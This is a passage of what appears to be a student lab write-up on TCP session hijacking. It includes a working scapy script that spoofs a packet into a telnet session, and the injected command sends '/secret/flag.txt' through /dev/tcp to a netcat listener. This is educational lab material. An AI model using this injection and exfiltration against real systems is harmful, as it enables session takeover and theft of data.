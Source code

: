 - Then using wireshark, we check the last packet sent and note down the src port, dst port, and sequence number
    - ![TCP session hijack wireshark](images/tcp_session_hijack_wireshark.png)
    - **src port**: 48450
    - **dst port**: 23
    - **sequence number**: 1879884514
    - **ack number**: 4039886615
- Then we create a python script `tcp_hijack.py` to spoof a TCP packet with the correct src port, dst port, and sequence number to inject a command `cat /secret/flag.txt > /dev/tcp/10.9.0.5/9090` into the telnet session
    - ```python
        #!/usr/bin/env python3
        from scapy.all import *
        ip = IP(src="10.9.0.5", dst="10.9.0.6")
        tcp = TCP(sport=36002, dport=23, flags="A", seq=1617464057, ack=2704848646)
        data = "\ncat /secret/flag.txt > /dev/tcp/10.9.0.5/9090\n"
        pkt = ip/tcp/data
        ls(pkt)
        send(pkt, verbose=0)
        ```
- then on the host VM, ip address: `10.9.0.5`, we start a netcat listener on port 9090 using `nc -l -p 9090`
- Then we run the python script `python3 tcp_hijack.py` to inject the command into the telnet session
- We see that the command is executed and the flag is sent to the netcat listener on the host VM